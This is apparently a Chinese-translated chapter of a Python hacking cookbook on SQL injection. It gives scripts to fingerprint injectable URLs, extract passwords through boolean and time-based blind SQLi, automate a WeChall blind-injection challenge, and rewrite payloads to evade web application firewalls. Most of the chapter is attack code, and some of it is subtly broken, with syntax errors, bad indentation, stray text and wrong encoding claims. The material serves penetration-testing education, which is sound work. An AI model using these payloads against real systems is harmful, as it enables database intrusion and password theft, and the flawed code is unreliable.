


# 第四章 SQL 注入

在本章中，我们将介绍以下主题：

*   检查抖动
*   识别基于 URL 的 SQLi
*   利用布尔 SQLi
*   利用盲 SQLi
*   编码有效载荷

# 导言

SQL 注入是一种响亮而嘈杂的攻击，在你所看到的每一家与技术相关的媒体提供商中，它都会让你感到头晕目眩。这是近代历史上最常见和最具破坏性的袭击之一，并在新设施中继续蓬勃发展。本章重点介绍如何执行和支持 SQL 注入攻击。我们将创建脚本，对攻击字符串进行编码，执行攻击，并对正常操作计时，以规范化攻击时间。

# 检查抖动

执行基于时间的 SQL 注入的唯一困难是各地游戏玩家的瘟疫——滞后。一个人可以很容易地坐下来，在精神上解释滞后，获取一系列返回值，然后明智地检查输出，并计算出*cgris*是*chris*。对于一台机器来说，这要困难得多；因此，我们应该努力减少延误。

我们将创建一个脚本，该脚本向服务器发出多个请求，记录响应时间并返回平均时间。该可用于计算被称为**抖动**的基于时间的攻击中响应的波动。

## 怎么做…

识别要攻击的 URL，并通过`sys.argv`变量提供给脚本：

```
import requests
import sys
url = sys.argv[1]

values = []

for i in xrange(100): 
  r = requests.get(url)
  values.append(int(r.elapsed.total_seconds()))

average = sum(values) / float(len(values))
print “Average response time for “+url+” is “+str(average)
```

以下屏幕截图是使用此脚本时产生的输出示例：


## 它是如何工作的…

我们导入这个脚本所需的库，就像我们在本书中迄今为止所做的所有其他脚本一样。我们将计数器`I`设置为零，并为即将生成的时间创建一个空列表：

```
while i < 100:
  r = requests.get(url)
  values.append(int(r.elapsed.total_seconds()))
  i = i + 1
```

使用计数器`I`，我们对目标 URL 运行`100`请求，并将请求的响应时间附加到我们之前创建的列表中。`R.elapsed`是一个`timedelta`对象，不是整数，因此必须使用`.total_seconds()`调用，以便为我们以后的平均值获取一个可用的数字。然后，我们在计数器中添加一个以说明此循环，以便脚本适当结束：

```
average = sum(values) / float(len(values))
print “Average response time for “+url+” is “+average
```

循环完成后，我们计算`100`请求的平均值，方法是用`sum`计算列表的总值，然后用`len`除以列表中的值数。

然后，为了便于理解，我们返回一个基本输出。

## 还有更多…

这是执行此操作的一种非常基本的方式，并且仅作为独立脚本来真正执行该功能，以证明一点。要作为另一个脚本的一部分执行，我们将执行以下操作：

```
import requests
import sys

input = sys.argv[1]

def averagetimer(url):

  i = 0
  values = []

  while i < 100:
    r = requests.get(url)
    values.append(int(r.elapsed.total_seconds()))
    i = i + 1

  average = sum(values) / float(len(values))
  return average

averagetimer(input)
```

# 识别基于 URL 的 SQLi

所以，我们之前已经研究过 XSS 和错误消息的模糊化。这一次，我们正在做一些类似的事情，但是使用 SQL 注入。任何 SQLi 的关键都是以单引号、勾号或撇号开头，这取决于您个人对单词的选择。我们在目标 URL 中打勾，并检查响应，以查看成功后运行的 SQL 版本。

我们将创建一个脚本，将基本 SQL 注入字符串发送到目标 URL，记录输出，并与错误消息中的已知短语进行比较，以识别底层系统。

## 怎么做…

我们将使用的脚本如下所示：

```
import requests

url = “http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=”
initial = “'”
print “Testing “+ url
first = requests.post(url+initial)

if “mysql” in first.text.lower(): 
  print “Injectable MySQL detected”
elif “native client” in first.text.lower():
  print “Injectable MSSQL detected”
elif “syntax error” in first.text.lower():
  print “Injectable PostGRES detected”
elif “ORA” in first.text.lower():
  print “Injectable Oracle detected”
else:
  print “Not Injectable J J”
```

以下是使用此脚本时产生的输出示例：

```
Testing http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=
Injectable MySQL detected

```

## 它是如何工作的…

我们导入库并手动设置 URL。如果需要，我们可以将其设置为`sys.argv`变量；但是，我在这里硬编码它以显示预期的格式。我们将初始注入字符串设置为单引号，并打印测试开始：

```
url = “http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=”
initial = “'”
print “Testing “+ url
```

我们提出第一个请求，作为我们提供的 URL 和撇号：

```
first = requests.post(url+initial)
```

接下来的几行是我们用来识别底层数据库的检测方法。MySQL 的标准错误是：

```
You have an error in your SQL syntax; check the manual
that corresponds to your MySQL server version for the
right syntax to use near '\'' at line 1

```

相应地，我们的检测尝试读取响应文本并搜索`MySQL`字符串，如果是，则打印出尝试成功：

```
if “mysql” in first.text.lower(): 
  print “Injectable MySQL detected”
```

对于 MS SQL，错误消息示例如下：

```
Microsoft SQL Native Client error '80040e14'
Unclosed quotation mark after the character string

```

由于存在多个潜在错误消息，我们需要识别一个常数，该常数在尽可能多的错误消息中出现。为此，我选择了`native client,`，但`Microsoft SQL`也可以使用：

```
elif “native client” in first.text.lower():
  print “Injectable MSSQL detected”
```

PostgreSQL 的标准错误消息是：

```
Query failed: ERROR: syntax error at or near
“'” at character 56 in /www/site/test.php on line 121.

```

有趣的是，对于 SQL 中经常出现的语法错误，唯一经常使用`syntax`这个词的解决方案是`PostGRES,`，它允许我们使用它作为区别词：

```
elif “syntax error” in first.text.lower():
  print “Injectable PostGRES detected”
```

我们检查的最后一个系统是 Oracle。Oracle 的错误消息示例如下：

```
ORA-00933: SQL command not properly ended

```

ORA 是大多数 Oracle 错误的前缀，因此可以在此处用作标识符。只有少数附带情况下，非 ORA 错误消息会应用于尾随勾号：

```
elif “ORA” in first.text.lower():
  print “Injectable Oracle detected”
```

在这些都不适用的情况下，我们有一个最终的`else`语句，声明该参数不可注入，并且在选取该参数时出错。

以下屏幕截图显示了一个示例输出：



## 还有更多…

将此脚本与[第 1 章](1.html "Chapter 1. Gathering Open Source Intelligence")中的蜘蛛*收集开源情报*相结合，将有助于快速有效地识别网页中的可注入 URL。识别要注入的参数的方法是必要的，在大多数情况下，可以通过简单的正则表达式操作来实现。

奥迪-1 制作了一套有用的 SQLi 测试页面，可在[找到 https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs) 。

# 利用布尔 SQLi

有时候，你从一个页面上只能得到一个“是”或“否”。这让人心碎，直到你意识到这就是说“我爱你”的 SQL 等价物。根据您的耐心程度，所有 SQLi 都可以分解为是或否问题。

我们将创建一个脚本，该脚本接受一个`yes`值和一个 URL，并根据预定义的攻击字符串返回结果。我已经提供了一个示例攻击字符串，但这将根据您正在测试的系统而改变。

## 怎么做…

以下脚本是您的脚本的外观：

```
import requests
import sys

yes = sys.argv[1]

i = 1
asciivalue = 1

answer = []
print “Kicking off the attempt”

payload = {'injection': '\'AND char_length(password) = '+str(i)+';#', 'Submit': 'submit'}

while True:
  req = requests.post('<target url>' data=payload)
  lengthtest = req.text
  if yes in lengthtest:
    length = i
    break
  else:
    i = i+1

for x in range(1, length):
  while asciivalue < 126:
payload = {'injection': '\'AND (substr(password, '+str(x)+', 1)) = '+ chr(asciivalue)+';#', 'Submit': 'submit'}
      req = requests.post('<target url>', data=payload)
      if yes in req.text:
    answer.append(chr(asciivalue))
break
  else:
      asciivalue = asciivalue + 1
      pass
asciivalue = 0
print “Recovered String: “+ ''.join(answer)
```

## 它是如何工作的…

首先，用户必须识别只有在 SQLi 成功时才会出现的字符串。或者，可以修改脚本以响应缺少失败 SQLi 证据的情况。我们将此字符串作为一个`sys.argv`变量提供。我们还创建了两个迭代器，我们将在这个脚本中使用它们，并将它们设置为`1`，因为 MySQL 从`1`开始计数，而不是像失败的系统一样从`0`开始计数。我们还为将来的答案创建一个空列表，并指示用户脚本正在启动：

```
yes = sys.argv[1]

i = 1
asciivalue = 1
answer = []
print “Kicking off the attempt”
```

这里的有效负载基本上请求我们试图返回的密码的长度，并将其与将被迭代的值进行比较：

```
payload = {'injection': '\'AND char_length(password) = '+str(i)+';#', 'Submit': 'submit'}
```

然后我们永远重复下一个循环，因为我们不知道密码有多长。我们在`POST`请求中将有效负载提交到目标 URL：

```
while True:
  req = requests.post('<target url>' data=payload)
```

每次检查我们最初设置的`yes`值是否存在于响应文本中，如果存在，则结束 while 循环，将当前值`i`设置为参数长度。`break`命令是结束`while`循环的部分：

```
lengthtest = req.text
  if yes in lengthtest:
    length = i
    break
```

如果我们没有检测到`yes`值，我们将`1`添加到`i`并继续循环：

```
Ard.
else:
    i = i+1
```

使用目标字符串的标识长度，我们迭代每个字符，并使用`asciivalue`遍历该字符的每个可能值。对于每个值，我们将其提交到目标 URL。因为 ascii 表只运行到`127`，所以我们将循环设置为运行到`asciivalue`达到`126`为止。如果达到`127`，则表示出现问题：

```
for x in range(1, length):
  while asciivalue < 126:
payload = {'injection': '\'AND (substr(password, '+str(x)+', 1)) = '+ chr(asciivalue)+';#', 'Submit': 'submit'}
    req = requests.post('<target url>', data=payload)
```

我们检查响应中是否存在 yes 字符串，如果存在，则中断以转到下一个字符。我们将成功消息以字符形式附加到应答字符串，并使用`chr`命令进行转换：

```
if yes in req.text:
    answer.append(chr(asciivalue))
break
```

如果`yes`值不存在，我们将`asciivalue`添加到该位置的下一个潜在角色并通过：

```
else:
      asciivalue = asciivalue + 1
      pass
```

最后，我们为每个循环重置`asciivalue`，然后当循环到达字符串长度时，我们完成，打印整个恢复的字符串：

```
asciivalue = 1
print “Recovered String: “+ ''.join(answer)
```

## 还有更多…

这个脚本可能会被修改，以便通过更好的 SQL 注入字符串处理表中的迭代和恢复多个值。最终，这为开发更复杂和令人印象深刻的脚本以处理具有挑战性的任务提供了一个基础，就像后来的盲 SQL 注入脚本一样。有关这些概念的高级实现，请参见*利用盲 SQL 注入*脚本。

# 利用盲 SQL 注入

有时候，生活会给你柠檬；盲目的 SQL 注入点就是其中的一些柠檬。当您合理地确定已发现 SQL 注入漏洞，但没有错误且无法让它返回数据时，在这些情况下，您可以使用 SQL 中的计时命令使页面暂停以返回响应，然后使用该计时对数据库及其数据进行判断。

我们将创建一个脚本，该脚本向服务器发出请求，并根据请求的字符返回不同时间的响应。然后它将读取这些时间并重新组合字符串。

## 怎么做…

脚本如下：

```
import requests

times = []
print “Kicking off the attempt”
cookies = {'cookie name': 'Cookie value'}

payload = {'injection': '\'or sleep char_length(password);#', 'Submit': 'submit'}
req = requests.post('<target url>' data=payload, cookies=cookies)
firstresponsetime = str(req.elapsed.total_seconds)

for x in range(1, firstresponsetime):
  payload = {'injection': '\'or sleep(ord(substr(password, '+str(x)+', 1)));#', 'Submit': 'submit'}
  req = requests.post('<target url>', data=payload, cookies=cookies)
  responsetime = req.elapsed.total_seconds
  a = chr(responsetime)
    times.append(a)
    answer = ''.join(times)
print “Recovered String: “+ answer
```

## 它是如何工作的…

一如既往，我们导入所需的库，并声明稍后需要填写的列表。我们这里还有一个函数，它声明脚本确实已经开始了。使用一些基于时间的功能，用户可以等待一段时间。在这个脚本中，我还包括了使用`request`库的 cookies。对于此类攻击，可能需要进行身份验证：

```
times = []
print “Kicking off the attempt”
cookies = {'cookie name': 'Cookie value'}
```

我们在字典中设置了有效负载以及提交按钮。攻击字符串非常简单，可以通过一些解释来理解。初始勾号必须转义，才能作为字典中的文本处理。这个记号最初会打断 SQL 命令，并允许我们输入自己的 SQL 命令。接下来，我们说在第一个命令失败的情况下，使用`OR`执行以下命令。然后，我们告诉服务器为密码列第一行中的每个字符休眠一秒钟。最后，我们用分号结束语句，并用散列注释掉任何尾随字符（如果您是美国人和/或是错的话，可以用英镑）：

```
payload = {'injection': '\'or sleep char_length(password);#', 'Submit': 'submit'}
```

然后，我们将服务器响应的时间长度设置为`firstreponsetime`参数。我们将利用这一点来了解在以下链中需要多少字符通过此方法进行暴力：

```
firstresponsetime = str(req.elapsed).total_seconds
```

我们创建一个循环，将`x`设置为从`1`到所标识字符串长度的所有数字，并对每个数字执行一个操作。我们从`1`开始，因为 MySQL 从`1`开始计数，而不是像 Python 一样从零开始计数：

```
for x in range(1, firstresponsetime):
```

我们制作了一个与前面类似的有效负载，但这次我们说的是在第一行密码列中密码的`X`字符的 ascii 值的 sleep。因此，如果第一个字符是小写字母 a，那么相应的 ascii 值是 97，因此系统将休眠 97 秒。如果是小写 b，它将睡眠 98 秒，依此类推：

```
payload = {'injection': '\'or sleep(ord(substr(password, '+str(x)+', 1)));#', 'Submit': 'submit'}
```

我们每次提交字符串中每个字符位置的数据：

```
req = requests.post('<target url>', data=payload, cookies=cookies)
```

我们获取每个请求的响应时间来记录服务器睡眠的时间，然后将该时间从 ascii 值转换回字母：

```
responsetime = req.elapsed.total_seconds
  a = chr(responsetime)
```

对于每个迭代，我们打印出当前已知的密码，然后最终打印出完整密码：

```
answer = ''.join(times)
print “Recovered String: “+ answer
```

## 还有更多…

这个脚本提供了一个框架，可以适应许多不同的场景。web 应用程序挑战网站 Wechall 设置了一个限时、盲目的 SQLi 挑战，必须在很短的时间内完成。下面是我们的原始脚本，它已经适应了这种环境。如您所见，我必须考虑不同值和服务器延迟的较小时间差，并且还引入了一种检查方法，每次重置测试值并自动提交：

```
import subprocess
import requests

def round_down(num, divisor):
    return num - (num%divisor)

subprocess.Popen([“modprobe pcspkr”], shell=True)
subprocess.Popen([“beep”], shell=True)

values = {'0': '0', '25': '1', '50': '2', '75': '3', '100': '4', '125': '5', '150': '6', '175': '7', '200': '8', '225': '9', '250': 'A', '275': 'B', '300': 'C', '325': 'D', '350': 'E', '375': 'F'}
times = []
answer = “This is the first time”
cookies = {'wc': 'cookie'}
setup = requests.get ('http://www.wechall.net/challenge/blind_lighter/index .php?mo=WeChall&me=Sidebar2&rightpanel=0', cookies=cookies)
y=0
accum=0

while 1:
  reset = requests.get('http://www.wechall.net/challenge/blind_lighter/ index.php?reset=me', cookies=cookies)
  for line in reset.text.splitlines():
    if “last hash” in line:
      print “the old hash was:”+line.split(“ “)[20].strip(“.</li>”)
      print “the guessed hash:”+answer
      print “Attempts reset \n \n”
    for x in range(1, 33):
      payload = {'injection': '\'or IF (ord(substr(password, '+str(x)+', 1)) BETWEEN 48 AND 57,sleep((ord(substr(password, '+str(x)+', 1))- 48)/4),sleep((ord(substr(password, '+str(x)+', 1))- 55)/4));#', 'inject': 'Inject'}
      req = requests.post ('http://www.wechall.net/challenge/blind_lighter/ index.php?ajax=1', data=payload, cookies=cookies)
      responsetime = str(req.elapsed)[5]+str(req.elapsed)[6]+str(req.elapsed)[8]+ str(req.elapsed)[9]
      accum = accum + int(responsetime)
      benchmark = int(15)
      benchmarked = int(responsetime) - benchmark
      rounded = str(round_down(benchmarked, 25))
      if rounded in values:
        a = str(values[rounded])
        times.append(a)
        answer = ''.join(times)
      else:
        print rounded
        rounded = str(“375”)
        a = str(values[rounded])
        times.append(a)
        answer = ''.join(times)
  submission = {'thehash': str(answer), 'mybutton': 'Enter'}
  submit = requests.post('http://www.wechall.net/challenge/blind_lighter/ index.php', data=submission, cookies=cookies)
  print “Attempt: “+str(y)
  print “Time taken: “+str(accum)
  y += 1
  for line in submit.text.splitlines():
    if “slow” in line:
      print line.strip(“<li>”)
    elif “wrong” in line:
      print line.strip(“<li>”)
  if “wrong” not in submit.text:
    print “possible success!”
    #subprocess.Popen([“beep”], shell=True)
```

# 编码有效载荷

停止 SQL 注入的一种方法是通过服务器端文本操作或**Web App 防火墙**（**WAFs**进行过滤。这些系统针对通常与攻击相关的特定短语，如`SELECT`、`AND`、`OR`和空格。通过用不太明显的值替换这些值，可以很容易地避免这些问题，从而在总体上突出黑名单问题。

我们将创建一个脚本，该脚本接受攻击字符串，查找可能转义的字符串，并提供替代攻击字符串。

## 怎么做…

以下是我们的脚本：

```
subs = []
values = {“ “: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
originalstring = “' UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin';#”
secondoriginalstring = originalstring
for key, value in values.iteritems():
  if key in originalstring:
    newstring = originalstring.replace(key, value)
    subs.append(newstring)
  if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)

subset = set(subs)
for line in subs:
  print line
```

以下屏幕截图是使用此脚本时生成的输出示例：



## 它是如何工作的…

此脚本不需要库！多么令人震惊！我们为要创建的值创建一个空列表，并为要添加的替换值创建一个字典。我已经在其中添加了五个示例值。空格和`%20`通常由 WAF 转义，因为 URL 通常不包含空格，除非请求了不合适的内容。

更具体地说，经过调优的系统可能会转义特定于 SQL 的单词，例如`SELECT`、`AND`和`OR`。这些是非常基本的值，可以根据需要添加或替换：

```
subs = []
values = {“ “: “%50”, “%20”: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
```

我已经将原始字符串硬编码为一个示例，因此我们可以看到它是如何工作的。我已经包含了一个有效的 SQLi 字符串，其中嵌入了上述所有值，以证明其用途：

```
originalstring = “'%20UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin';#”
```

我们创建原始字符串的第二个版本，以便为每个替换创建累积结果和独立结果：

```
secondoriginalstring = originalstring
```

我们依次获取每个字典项，并将每个键和值分别分配给参数键和值：

```
for key, value in values.iteritems():
```

我们查看初始项是否存在，如果存在，则用键值替换它。例如，如果存在空格，我们将其替换为`%50`，这是编码的制表符 URL：

```
if key in originalstring:
    newstring = originalstring.replace(key, value)
```

每次迭代，这个字符串都将重置为我们在脚本开始时设置的原始值。然后，我们将该字符串添加到前面创建的列表中：

```
subs.append(newstring)
```

我们使用迭代字符串执行与前面相同的操作，该字符串每一次都会替换自身，以创建一个多编码版本：

```
if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)
```

最后，我们将列表转换为一个集合并逐行返回给用户，从而使列表唯一：

```
subset = set(subs)
for line in subs:
  print line
```

## 还有更多…

同样，可以将其制作为内部函数，而不是作为独立脚本使用。这也可以通过使用以下脚本来实现：

```
def encoder(string):

subs = []
values = {“ “: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
originalstring = “' UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin'”
secondoriginalstring = originalstring
for key, value in values.iteritems():
  if key in originalstring:
    newstring = originalstring.replace(key, value)
    subs.append(newstring)
  if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)

subset = set(subs)
return subset
```